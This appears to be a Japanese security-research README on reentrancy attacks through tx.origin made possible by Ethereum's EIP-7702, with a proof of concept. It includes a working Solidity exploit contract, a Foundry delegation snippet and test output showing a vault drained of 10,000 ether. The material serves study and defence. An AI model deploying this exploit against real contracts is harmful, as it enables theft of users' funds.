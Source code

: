 # Notes on tx.origin Reentrancy Attacks

**目次**
- [概要](#概要)
- [PoC](#poc)
- [Appendix: EIP-7702 関連の脆弱性の分析一覧](#appendix-eip-7702-関連の脆弱性の分析一覧)

## 概要
- 2025年5月に行われたPectraアップグレードで [EIP-7702](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-7702.md) が導入されたことで `tx.origin` から Reentrancy Attack が可能になった。
- EIP-7702 は、簡単に言えば「Externally Owned Account (EOA) に Ethereum Virtual Machine (EVM) バイトコードをセットするための仕様」。
    - 従来 EOA 上のコンテキストで、EVM バイトコードの実行はできない仕様だった。
    - EIP-7702 により、EOA がコントラクトのように振る舞うことができ、例えば「EOA に Ether が送金されたら `fallback` 関数でそれを別のアドレスにそのまま送金する」なんてことができる。
- EIP-7702 が導入されたことで様々なメリットがある一方で、「`tx.origin` は EOA であるから、 `tx.origin` が Reentrancy Attack を実行することはない」という前提が当たり前に崩れる。
    - Reentrancy Attack は [Checks-Effects-Interactionsパターン](https://github.com/minaminao/seccamp/tree/main/course/reentrancy) (CEI) に従い状態の整合が取れていれば被害を受けることがないが、一部のコントラクトでは不十分な対策が取られている。
        - 補足: Reentrancy Guard は Cross-Contract Reentrancy Attack に脆弱。
    - 特に EIP-7702 導入以前では、EOA から Reentrancy Attack を行うことは不可能であったため、この性質を利用して、例えば `require(tx.origin == msg.sender)` を Reentrancy Attack への対策としているコントラクトがあった。
        - `require(tx.origin == msg.sender)` を使用しているコントラクトは最近はほぼ見ないが、一昔前のコントラクトではよく使われていた。参考: [GitHub での検索](https://github.com/search?q=%22tx.origin+%3D%3D+msg.sender%22+language%3ASolidity&type=code)。
    - この例のように、 EIP-7702 で影響を受ける可能性があるケースは、CEI に従わずに `tx.origin` への送金（より一般にコントラクトコール）をしている場合である。
    - 従来 EIP-7702 が無いことで見逃されていた特殊な攻撃条件が成立する可能性がある。
- 当然、影響を受けるコントラクトを Ethereum Foundation や調査機関が調べ上げて EIP-7702 が導入されているため、ほぼほぼ安全であるとは考えられている。実際現時点で Ethereum メインネットで、この脆弱性が悪用されて被害が出たケースは私が知る限りは無い（BSC 等他のチェーンでは攻撃が報告されている）。
- 一方で、過去デプロイされた全てのコントラクトを調査できているわけではないのが事実であり、潜在的に影響を受けるコントラクトがゼロであると言い切ることは不可能。
    - 調査例: [Dedaub による関連仕様 EIP-3074 の影響調査](https://dedaub.com/audits/ethereum-foundation/ef-eip-3074-impact-study-may-19-2021/)。
    - まだ `tx.origin == msg.sender` で検索したコントラクトを地道にマニュアルレビューする程度であれば可能ではあるが、極端な話、ソースコードが検証されていないコントラクトに対してはバイトコードレベルでの調査を要するため現実的に困難（とはいえ、多くのユーザーが利用するプロトコルであれば、基本的にソースコードが公開されているので大きな問題にはならない）。

## PoC

例えば、以下のとてもシンプルなVaultコントラクトについて考える:

```solidity
contract SimpleVault {
    mapping(address => uint256) public balanceOf;

    function deposit() public payable {
        balanceOf[msg.sender] += msg.value;
    }

    function withdrawAll() public {
        require(tx.origin == msg.sender);
        require(balanceOf[msg.sender] > 0);
        (bool success,) = msg.sender.call{value: balanceOf[msg.sender]}("");
        require(success);
        balanceOf[msg.sender] = 0;
    }
}
```

仮に `require(tx.origin == msg.sender);` が無ければ以下のコントラクトで典型的な Reentrancy Attack が可能で、デポジットされた他のユーザーの資金を全て引き出せる:

```solidity
contract Exploit {
    SimpleVault simpleVault;
    uint256 step = 0;

    function exploit(address simpleVaultAddr) external payable {
        simpleVault = SimpleVault(simpleVaultAddr);
        for (uint256 i = 0; i < 20; i++) {
            uint256 value = address(simpleVault).balance < address(this).balance
                ? address(simpleVault).balance
                : address(this).balance;
            if (value == 0) {
                break;
            }
            simpleVault.deposit{value: value}();
            simpleVault.withdrawAll();
        }
    }

    receive() external payable {
        if (step == 0) {
            step = 1;
            simpleVault.withdrawAll();
        } else {
            step = 0;
        }
    }
}
```

補足: 効率的に全額引き出すために倍々に引き出す額を上げている。

`require(tx.origin == msg.sender);` があるので、以下のように `Exploit` コントラクトのバイトコードを攻撃者の EOA にセットしてから自身の `exploit` 関数を呼び出す:

```solidity
Exploit exploit = new Exploit();
vm.signAndAttachDelegation(address(exploit), attackerPrivateKey);
Exploit(payable(attackerAddr)).exploit{value: 1 ether}(address(simpleVault));
```

Foundry では `vm.signAndAttachDelegation` を用いて、EOA にバイトコードを設定できる（ref: [docs](https://getfoundry.sh/reference/cheatcodes/sign-delegation/)）。
厳密には既にデプロイ済みのコントラクトに実行を委任している。

注意点として、初期化コードは EOA のコンテキストでは実行されないので、もし `Exploit` のコンストラクタを実装しても委任時には実行されない。
そのため、先程の `Exploit` コントラクトでは、コンストラクタに `simpleVault` のアドレスを渡さず、 `exploit` 関数実行時に渡している。

このリポジトリ配下で以下のコマンドを実行すると、攻撃が成功することを確認できる:

```
$ forge test -vv
[⠊] Compiling...
[⠰] Compiling 1 files with Solc 0.8.30
[⠔] Solc 0.8.30 finished in 376.34ms
Compiler run successful!

Ran 1 test for test/Exploit.t.sol:ExploitTest
[PASS] test_Exploit() (gas: 962560)
Logs:
  before the attack:
    attacker balance: 1.000000000000000000
    vault balance: 10000.000000000000000000
  after the attack:
    attacker balance: 10001.000000000000000000
    vault balance: 0.000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.63ms (1.16ms CPU time)

Ran 1 test suite in 102.14ms (1.63ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

セットアップ後 `SimpleVault` コントラクトには 10,000 ether があり、攻撃後は 0 ether になっている。

## Appendix: EIP-7702 関連の脆弱性の分析一覧
- [2025-08-25 BSC の unknown コントラクトでの被害](./src/20250825_BscUnknown)
